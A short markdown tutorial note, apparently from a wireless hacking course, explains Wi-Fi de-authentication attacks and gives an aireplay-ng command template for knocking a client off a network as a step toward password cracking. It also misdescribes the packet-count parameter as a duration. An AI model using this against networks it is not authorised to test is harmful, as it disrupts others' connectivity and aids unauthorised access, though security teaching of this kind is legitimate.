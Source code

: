 # De-Auth Attack
This is an activity or attack through which we are going to use to disconnect a client from the network

Note: it is helpful to crack the password of different type of encryption which will be discussed later.

> Command to launch a **de-auth attack**
> ```bash
> aireplay-ng --deauth [#deauthPackets] -a [NetworkMac] -c [TargetMac] [Interface]
> ``` 
> # DeauthPackets
> is the time for which you want to make you de-auth attack for
